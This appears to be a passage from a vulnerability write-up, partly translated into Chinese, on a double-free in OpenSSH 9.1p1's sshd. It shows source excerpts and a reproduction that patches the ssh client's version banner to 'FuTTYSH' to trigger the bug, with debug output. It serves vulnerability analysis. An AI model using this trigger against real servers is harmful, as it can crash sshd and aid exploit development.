 ``` C
//servconf.c:assemble_algorithms->kex_assemble_names
static void

assemble_algorithms(ServerOptions *o)

{
....

#define ASSEMBLE(what, defaults, all) \
    do { \
        if ((r = kex_assemble_names(&o->what, defaults, all)) != 0) \ //
            fatal_fr(r, "%s", #what); \
    } while (0)
    ASSEMBLE(ciphers, def_cipher, all_cipher);
    ASSEMBLE(macs, def_mac, all_mac);
    ASSEMBLE(kex_algorithms, def_kex, all_kex);
    ASSEMBLE(hostkeyalgorithms, def_key, all_key);
    ASSEMBLE(hostbased_accepted_algos, def_key, all_key);
    ASSEMBLE(pubkey_accepted_algos, def_key, all_key);
    ASSEMBLE(ca_sign_algorithms, def_sig, all_sig);
#undef ASSEMBLE
  
  .....
}
```

``` C
//kex.c:kex_assemble_names
 225 kex_assemble_names(char **listp, const char *def, const char *all)
 ...
 240         list = *listp;
 ...
 315         free(list);  //free for the second time
```


To reproduce this vulnerability, we installed a Debian testing
(bookworm, which ships OpenSSH 9.1p1 at the time of writing this post)
and we simply modified the banner of the ssh client to pretend that it
is a "FuTTY" client (to force the "SSH_OLD_DHGEX" compatibility bit in
sshd):
为了重现此漏洞，我们安装了 Debian 测试版（Bookworm，在撰写本文时其附带 OpenSSH 9.1p1），然后我们简单地修改了 SSH 客户端的标识，使其伪装为“FuTTY”客户端（以强制在 sshd 中启用 “SSH_OLD_DHGEX” 兼容性位）：

```
$ cp -i /usr/bin/ssh ./ssh

$ sed -i s/OpenSSH_9.1p1/FuTTYSH_9.1p1/g ./ssh

$ ./ssh -v 127.0.0.1
...
debug1: Local version string SSH-2.0-FuTTYSH_9.1p1 Debian-2
debug1: Remote protocol version 2.0, remote software version OpenSSH_9.1p1 Debian-2
...
debug1: SSH2_MSG_SERVICE_ACCEPT received
Connection closed by 127.0.0.1 port 22
```
